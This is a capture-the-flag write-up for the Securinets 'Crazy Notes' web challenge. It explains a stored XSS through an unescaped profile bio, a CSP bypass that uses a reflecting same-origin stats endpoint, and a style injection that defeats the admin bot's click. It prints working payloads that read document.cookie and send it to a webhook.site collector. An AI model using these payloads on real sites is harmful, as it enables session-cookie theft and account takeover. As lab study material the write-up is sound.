


# Crazy Notes — XSS + CSP Bypass Writeup

- **Challenge**: Crazy Notes
- **Category**: Web Exploitation
- **Difficulty**: 900 pts
- **Flag**: `Securinets{s0me_fun_f0r_xss_f4ns}`
- **Event**: Securinets CTF

---## 1. What We Were Given

The challenge handed us a ZIP archive containing the full source of a small note-taking web app called **Noted**, plus its companion admin bot. The files were:
src/
├── docker-compose.yaml
├── app/
│ ├── app.py
│ ├── requirements.txt
│ ├── static/
│ │ ├── app.css
│ │ └── notes.js
│ └── templates/
│ ├── login.html
│ ├── register.html
│ ├── profile.html
│ ├── notes.html
│ └── note_detail.html
└── bot/
├── bot.js
└── package.json

- **The live instance was hosted at**:https://crazy-notes.web2.friendly-ctf.securinets.tn

  
### Application Description

**Noted** is a minimal note manager. A user can:

- Register and log in.
- Write and store notes.
- Edit a public profile bio.
- Pick a color for the “View Random Note” button.
- Click a **Trigger admin** button that asks an automated **admin bot** to come visit their notes.

The admin bot (`bot.js`) is a Playwright script that:

1. Logs in as `admin`.
2. Attaches a `flag` cookie containing the secret flag.
3. Navigates to the attacker’s notes page.
4. Tries to click the **View Random Note** button.
5. If the click fails (times out), it falls back to visiting the attacker’s **profile** page.

Our goal: get the admin bot to visit our profile, execute JavaScript in its browser context, and leak the `flag` cookie.

---

## 2. First Look — Reading the Source

Before writing a single payload, I read every file. Three details jumped out immediately.

### 2.1 — The Bio is Rendered as Raw HTML

In `profile.html`:

```html
<p class="muted">{{ bio | safe }}</p>
```
The ```|safe ```filter in Jinja2 disables HTML escaping. Anything we put in the bio is rendered as raw HTML — including ``` <script>``` tags. This is the injection point.

### 2.2 — A Strict CSP Is in Place

From app.py:
```
CSP_POLICY = "default-src 'self'; script-src 'self' https://cdnjs.cloudflare.com/ajax/libs/dompurify/; ..."
```
The CSP only allows scripts from:

The same origin ('self').

The DOMPurify CDN on cdnjs.cloudflare.com.

This means:

Inline scripts like <script>alert(1)</script> are blocked.

javascript: URIs are blocked.

onerror= / onclick= attributes are blocked.

We need to load a script from the same origin. Which brings us to the third observation.

### 2.3  — The /note/<id>/stats Endpoint Reflects the Note Title

From app.py:
```
@app.route('/note/<int:note_id>/stats', methods=['GET'])
def note_stats(note_id):
    ...
    return f"Note: {note[1]}, Visit Count: {note[2]}"
```
note[1] is the title of the note. The endpoint returns plain text with no Content-Type header, so if we load it with <script src="...">, the browser sniffs it as JavaScript and executes it.

If our note title is valid JavaScript → the browser will run it.

This is our CSP bypass: we don’t inject a script — we inject a same-origin script tag whose source contains our payload.

## 3. Crafting the JavaScript Payload

The title length limit is 80 characters, so the payload had to be compact. I settled on:
```
1;location=document.currentScript.src.split('#')[1]+btoa(document.cookie);//
```
The full reflected response when loaded becomes:

```
Note: 1;location=document.currentScript.src.split('#')[1]+btoa(document.cookie);//, Visit Count: 0
```
Note: 1; is treated as a label + expression — valid JavaScript. The rest executes cleanly.

## 4. Exploit Steps

-**1-** I created a normal user account on the live site.
-**2-** On the notes page, I created a new note:

Title: 1;location=document.currentScript.src.split('#')[1]+btoa(document.cookie);//

Content: anything (random texxt).

After saving, I opened the note and noted the URL:
```
https://crazy-notes.web2.friendly-ctf.securinets.tn/note/21
```
-**3-** Inject the Payload into the Bio

I edited my profile bio to:

```
<script src="/note/21/stats#//webhook.site/---/?"></script>
```
The URL fragment (#//webhook.site/---/?) is preserved by the browser when the script is loaded, and document.currentScript.src returns the full URL including the fragment — that’s how the payload knows where to redirect.

-**4-** Disable the Bot’s Click

Here’s the tricky part. The bot first tries to click #view-btn on the notes page. If that click succeeds, it never visits the profile — and our payload never fires.

The button’s style is user-controlled:

```
<button id="view-btn" ... style="background-color: {{ color_input }}">View Random Note</button>
```
If we set our button color to:

```
red; pointer-events: none;
```
Then the rendered style attribute becomes:

```
style="background-color: red; pointer-events: none;"
```
-**5-** Trigger the Admin Bot
On the profile page, I clicked Trigger admin. Behind the scenes, this fires a POST to /trigger-admin, which spawns a thread that POSTs to the bot’s /visit endpoint with our user ID.

The bot then:

-**Launches a headless Chromium.**

-**Adds the flag cookie for the target origin.**

-**Logs in as admin.**

-**Navigates to /user/<our_id>/notes.**

-**Tries to click #view-btn — fails (10s timeout).**

-**Falls into the catch block → visits /user/<our_id>/profile.**

-**Our bio loads → <script src="/note/21/stats#..."> fires.**

-**The response from /note/21/stats is executed as JavaScript.**

-**Our payload reads document.cookie and redirects to the webhook.**

-**6-** Read the Flag from the Webhook

On the webhook dashboard, a new request appeared. Crucially, it came from a different IP than my own, with a HeadlessChrome User-Agent — the classic fingerprint of an automated bot.
The query string was: **ZmxhZz1TZWN1cmluZXRze3MwbWVfZnVuX2Ywcl94c3NfZjRuc30=**
Decoding it as Base64 gives:
**flag=Securinets{s0me_fun_f0r_xss_f4ns}**


